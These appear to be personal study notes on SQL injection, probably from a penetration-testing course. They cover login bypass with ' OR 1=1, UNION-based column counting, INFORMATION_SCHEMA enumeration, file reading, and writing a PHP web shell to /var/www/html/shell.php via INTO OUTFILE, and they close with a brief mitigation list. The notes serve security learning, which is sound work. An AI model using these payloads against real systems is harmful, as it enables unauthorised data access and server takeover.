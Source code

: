 Mysql client >> do not provide flag for password as it is stored in history in cleartext

Check privs with *SHOW GRANTS*

## Types of injection
 - Blind
 - In band
 -  out of band

#### Blind - Boolean based/ Time Based
#### In Band - Union Based / Error Based
#### Out of Band - No output but effect other location


## Subverting Query Logic

Test if form is vulnerable to SQLinjection, does it filter `(', ;, :, #)`

Can add `' OR 1 = 1` to login fields too
use `' OR 1 =1 ` in the username field if we know the admin login
use `' OR 1 = 1 ` in password field to select first user from the database (Which is usually admin)

Passwords are usually hashed so is tricky to SQL inject with them.


###### Comment shit out with ;-- - to kill off a line (can also use %23(#))

### Union Combines Results

Union combines results with other fields using the union as CrossRef 

before using union injections we need to find amount of rows in tables.

incrimenting order by untill we get an error 

example 
```SQL
 ' ORDER BY 1 ---                                '
-- ADD ANOTHER NUMBER UNTIL ERROR
 ' ORDER BY 2 --                                  ' 
 ERROR
 One COLUMN
```

Not all columns always visible.
using columns as junk data allows us to see which columns are being printed

```sql
cn' UNION select 1,@@version,3,4-- -
```
will display version

cn' UNION SELECT 1, user(), 3 4; -- -


### MYSQL Fingerprinting

SELECT @@version

Information SCHEMA
Most databases have a schema. this shows metadata, databases and tables present on server.

```shell-session
SELECT * FROM INFORMATION_SCHEMA.SCHEMATA;
```

INFORMATION_SCHEMA.TABLES > TABLE_NAME(names) & TABLE_SCHEMA()

> Find printed numbers
> Select TABLE_SCHEMA and TABLE_NAME in those

we can then enum column names with COLUMN_NAME

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='products'-- -
```


we can then use {TABLE_SCHEMA}.{TABLE_NAME} for our search functions

#### Reading Files

Relies on LOAD_FILE() function of sql

SQL can see user with SELECT USER()
can check user privs with
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

Possible that php code can display in the browser

#### Writing Files
secure_file_priv allows writing to files.  can check with

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

if Secure file priv is empty then anyone can read/write

to write files use INTO OUTFILE '/file/path'
> It is possible to send strings directly to the outfile
```sql
SELECT "HELLO" from users INTO OUTFILE '/etc/passwd'
```

the files that are created are then owned by the sql server.
if the sql server is running root and makes a shell it will be root

__Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.__

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
^STOLEN SHELL
### MITIGATION
 
- Input Sanitization
- Input Validation
- User privileges  - Server reader should not be able to read/write files. and can only read certain tables.
- Web Application Firewall(waf) which detects any malicious http requests and rejects 



2345 SELECTED

```sql
	cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -
```

cn' UNION SELECT 1, COLUMN_NAME, TABLE_NAME, TABLE_SCHEMA, 4, 5 from INFORMATION_SCHEMA.COLUMNS-- -
